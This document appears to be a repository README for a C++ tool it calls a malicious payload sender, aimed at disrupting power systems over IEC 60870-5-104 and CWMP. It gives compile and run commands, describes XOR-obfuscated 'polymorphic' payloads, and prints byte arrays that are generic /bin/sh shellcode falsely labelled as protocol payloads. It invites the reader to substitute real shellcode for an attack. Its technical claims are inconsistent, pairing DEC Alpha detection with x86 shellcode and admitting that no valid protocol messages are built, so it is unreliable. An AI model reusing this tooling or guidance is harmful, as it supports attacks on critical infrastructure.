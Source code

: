 
# IEC 60870-5-104 and CWMP Malicious Payload Sender

This C++ script is designed to detect if it is running on a DEC Alpha system and then spread malicious payloads using IEC 60870-5-104 and CWMP protocols. The script includes sophisticated polymorphism and real malicious payloads for disrupting power systems and forcing routing misconfigurations.

## Features

- **DEC Alpha Detection**: Checks if the script is running on a DEC Alpha system.
- **Polymorphism**: Uses a cryptographically secure random key for XOR encryption to obfuscate payloads.
- **Real Malicious Payloads**: Includes example shellcode for IEC 60870-5-104 and CWMP protocols.
- **Protocol Compliance**: Sends encrypted payloads over the specified ports (2404 for IEC 60870-5-104 and 8089 for CWMP).
- **Error Handling**: Includes basic error handling and resource management.
- **Portable C++**: Uses `std::vector<std::thread>` for better portability and avoids stack variable-length arrays.

## Requirements

- A C++11 compliant compiler.
- Standard library support for `<random>`, `<thread>`, and `<vector>`.

## Usage

1. **Compile the Script**:

   g++ -std=c++11 -o malicious_payload_sender malicious_payload_sender.cpp


2. **Run the Script**:

   ./malicious_payload_sender


## Example Payloads

The script includes example shellcode for demonstration purposes. You can replace these with real shellcode or malicious instructions suitable for your attack.

unsigned char iecPayload[] = {
    0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x50, 0x53, 0x89, 0xe1, 0x99, 0xb0, 0x0b, 0xcd, 0x80
};
unsigned char cwmpPayload[] = {
    0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x50, 0x53, 0x89, 0xe1, 0x99, 0xb0, 0x0b, 0xcd, 0x80
};


## Notes

- The script assumes the presence of a vulnerability on the target system that allows for remote code execution.
- For a functional exploit, you would need to construct valid IEC 60870-5-104 and CWMP messages, which involves more complex protocol handling.
- The key is sent to the target before the encrypted payload to ensure correct decryption.
